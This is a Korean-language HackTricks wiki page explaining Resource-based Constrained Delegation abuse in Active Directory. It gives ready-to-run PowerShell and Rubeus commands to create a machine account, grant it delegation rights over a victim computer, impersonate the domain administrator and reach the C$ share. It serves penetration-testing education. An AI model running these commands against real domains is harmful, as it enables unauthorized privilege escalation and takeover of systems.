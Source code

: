 # Resource-based Constrained Delegation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Resource-based Constrained Delegation의 기초

이것은 기본 [Constrained Delegation](constrained-delegation.md)와 유사하지만 **서비스에 대해 사용자를 가장할 수 있는 권한을 **객체**에 부여하는 대신**. Resource-based Constrained Delegation은 **어떤 사용자가 그것에 대해 다른 사용자를 가장할 수 있는지를 객체에 설정합니다**.

이 경우, 제약된 객체는 _**msDS-AllowedToActOnBehalfOfOtherIdentity**_라는 속성을 가지며, 이 속성에는 그것에 대해 다른 사용자를 가장할 수 있는 사용자의 이름이 포함됩니다.

이 Constrained Delegation과 다른 위임의 중요한 차이점은 **기계 계정에 대한 쓰기 권한**(_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_)을 가진 모든 사용자가 _**msDS-AllowedToActOnBehalfOfOtherIdentity**_를 설정할 수 있다는 것입니다 (다른 형태의 위임에서는 도메인 관리자 권한이 필요했습니다).

### 새로운 개념

Constrained Delegation에서는 사용자의 _userAccountControl_ 값 내에 있는 **`TrustedToAuthForDelegation`** 플래그가 **S4U2Self**를 수행하는 데 필요하다고 언급되었습니다. 하지만 그것은 완전히 사실이 아닙니다.\
실제로는 그 값이 없더라도 **서비스**(SPN이 있는 경우)인 경우에는 어떤 사용자에 대해서도 **S4U2Self**를 수행할 수 있지만, **`TrustedToAuthForDelegation`**이 있는 경우 반환된 TGS는 **Forwardable**이 되고, **그 플래그가 없는 경우** 반환된 TGS는 **Forwardable**이 **아닙니다**.

그러나 **S4U2Proxy**에서 사용되는 **TGS**가 **Forwardable이 아닌 경우** 기본 Constrained Delegation을 악용하려고 하면 **작동하지 않습니다**. 하지만 Resource-Based Constrained Delegation을 악용하려고 하면 **작동합니다**(이는 취약점이 아니라 기능입니다, 분명히).

### 공격 구조

> **컴퓨터** 계정에 대해 **동등한 쓰기 권한**이 있는 경우 해당 머신에서 **특권 액세스**를 얻을 수 있습니다.

공격자가 이미 **희생자 컴퓨터에 대한 동등한 쓰기 권한**을 가지고 있다고 가정합니다.

1. 공격자는 **SPN**이 있는 계정을 **타락시키거나** 하나를 **생성**합니다 (“Service A”). **어떤** _관리자 사용자_도 특별한 권한 없이 최대 10개의 **컴퓨터 객체**(**_MachineAccountQuota_**)를 **생성**하고 **SPN**을 설정할 수 있습니다. 따라서 공격자는 단순히 컴퓨터 객체를 생성하고 SPN을 설정할 수 있습니다.
2. 공격자는 희생자 컴퓨터(ServiceB)에 대한 **쓰기 권한**을 악용하여 **ServiceA가 해당 희생자 컴퓨터(ServiceB)에 대해 어떤 사용자도 가장할 수 있도록 리소스 기반 제약 위임을 구성합니다**.
3. 공격자는 Rubeus를 사용하여 **특권 액세스가 있는 사용자**에 대해 Service A에서 Service B로 **전체 S4U 공격**(S4U2Self 및 S4U2Proxy)을 수행합니다.
   1. S4U2Self (타락시키거나 생성한 SPN에서): **관리자에게 TGS를 요청합니다** (Forwardable 아님).
   2. S4U2Proxy: 이전 단계의 **Forwardable이 아닌 TGS**를 사용하여 **희생자 호스트**에 대한 **관리자**의 **TGS**를 요청합니다.
   3. Forwardable이 아닌 TGS를 사용하더라도 Resource-based Constrained Delegation을 악용하고 있으므로 작동합니다.
   4. 공격자는 **티켓을 전달**하고 **사용자를 가장하여 희생자 ServiceB에 대한 **액세스**를 얻을 수 있습니다.

도메인의 _**MachineAccountQuota**_를 확인하려면 다음을 사용할 수 있습니다:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## 공격

### 컴퓨터 객체 생성

[ powermad](https://github.com/Kevin-Robertson/Powermad)**를 사용하여 도메인 내에 컴퓨터 객체를 생성할 수 있습니다:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### R**esource-based Constrained Delegation 구성하기**

**activedirectory PowerShell 모듈 사용하기**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**PowerView 사용하기**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### 완전한 S4U 공격 수행

우선, 우리는 비밀번호 `123456`로 새로운 컴퓨터 객체를 생성했으므로, 해당 비밀번호의 해시가 필요합니다:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
이것은 해당 계정에 대한 RC4 및 AES 해시를 출력합니다.\
이제 공격을 수행할 수 있습니다:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
당신은 Rubeus의 `/altservice` 매개변수를 사용하여 한 번 요청하는 것만으로 더 많은 티켓을 생성할 수 있습니다:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
사용자는 "**위임할 수 없음**"이라는 속성을 가지고 있습니다. 사용자가 이 속성이 True로 설정되어 있으면, 그를 가장할 수 없습니다. 이 속성은 bloodhound 내에서 확인할 수 있습니다.
{% endhint %}

### 접근

마지막 명령줄은 **완전한 S4U 공격을 수행하고 TGS를** 관리자에서 피해자 호스트의 **메모리**로 주입합니다.\
이 예제에서는 관리자로부터 **CIFS** 서비스에 대한 TGS가 요청되었으므로 **C$**에 접근할 수 있습니다:
```bash
ls \\victim.domain.local\C$
```
### Abuse different service tickets

[**사용 가능한 서비스 티켓에 대해 알아보세요**](silver-ticket.md#available-services).

## Kerberos Errors

* **`KDC_ERR_ETYPE_NOTSUPP`**: 이는 kerberos가 DES 또는 RC4를 사용하지 않도록 구성되어 있으며, RC4 해시만 제공하고 있음을 의미합니다. Rubeus에 최소한 AES256 해시(또는 rc4, aes128 및 aes256 해시를 모두 제공)를 제공하십시오. 예: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: 이는 현재 컴퓨터의 시간이 DC의 시간과 다르며 kerberos가 제대로 작동하지 않음을 의미합니다.
* **`preauth_failed`**: 이는 주어진 사용자 이름 + 해시가 로그인에 실패했음을 의미합니다. 해시를 생성할 때 사용자 이름에 "$"를 넣는 것을 잊었을 수 있습니다 (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: 이는 다음을 의미할 수 있습니다:
  * 당신이 가장하려는 사용자가 원하는 서비스에 접근할 수 없습니다 (가장할 수 없거나 충분한 권한이 없기 때문)
  * 요청한 서비스가 존재하지 않습니다 (winrm에 대한 티켓을 요청했지만 winrm이 실행되고 있지 않은 경우)
  * 생성된 fakecomputer가 취약한 서버에 대한 권한을 잃었으며, 이를 다시 부여해야 합니다.

## References

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
